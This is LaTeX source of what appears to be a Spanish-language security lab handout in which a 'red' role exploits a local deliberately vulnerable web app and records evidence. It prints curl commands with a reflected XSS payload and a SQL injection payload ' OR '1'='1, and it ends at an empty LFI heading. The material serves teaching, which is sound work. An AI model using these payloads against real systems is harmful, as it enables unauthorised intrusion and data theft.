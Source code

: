 \documentclass[11pt,a4paper]{article}
\newcommand{\iconotexto}[2]{\textcolor{cyanNeon}{\faIcon{#1}}~#2}
\begin{document}
Evidencia cruda en semana\_NN/evidencia y el apartado de reproducción del informe.

\section{\iconotexto{list-ol}{Ejemplo paso a paso}}

El rol Rojo explota los tres casos y documenta el payload exacto, la respuesta y la linea de codigo o configuracion que lo permite. Un hallazgo sin causa raiz es una anecdota.

\subsection{XSS reflejado con evidencia del reflejo}

El payload se envia en el parametro y se guarda la respuesta donde aparece sin codificar. La captura del reflejo es la prueba; el aviso del navegador es secundario.

\begin{lstlisting}[style=estiloCodigo]
mkdir -p semana_05/evidencia
curl -s -b semana_05/evidencia/cookies.txt \
  'http://127.0.0.1:8081/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C/script%3E' \
  > semana_05/evidencia/xss_reflejo.html
grep -n '<script>alert(1)</script>' semana_05/evidencia/xss_reflejo.html
\end{lstlisting}

\subsection{Inyeccion SQL que devuelve filas no previstas}

El payload transforma la consulta y devuelve mas filas de las que el formulario pedia. Se documenta el numero de filas y el campo que lo delata.

\begin{lstlisting}[style=estiloCodigo]
curl -s -b semana_05/evidencia/cookies.txt \
  'http://127.0.0.1:8081/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271&Submit=Submit' \
  > semana_05/evidencia/sqli_filas.html
grep -c 'First name' semana_05/evidencia/sqli_filas.html
\end{lstlisting}

\subsection{LFI para leer un archivo del contenedor}
\end{document}
